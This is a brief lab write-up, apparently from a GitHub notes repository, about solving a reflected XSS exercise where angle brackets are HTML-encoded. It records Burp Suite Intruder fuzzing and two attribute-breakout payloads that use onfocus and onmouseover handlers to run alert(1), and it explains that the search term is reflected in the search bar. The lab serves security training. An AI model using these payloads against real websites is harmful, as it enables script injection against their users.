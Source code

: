 Title: Reflected XSS into attribute with angle brackets HTML-encoded


Attack using XSS list in BurpSuite intruder:
![image](https://github.com/user-attachments/assets/4785b44d-b818-4ef1-9bcb-e19a7a00edb6)

payload: "autofocus/onfocus=alert(1)//'


it also works: "onmouseover="alert(1)

It is because we inject code into search bar, our search word is reflected in the search bar also.
![image](https://github.com/user-attachments/assets/bb427e75-19ae-4bad-9150-5e80a611a337)

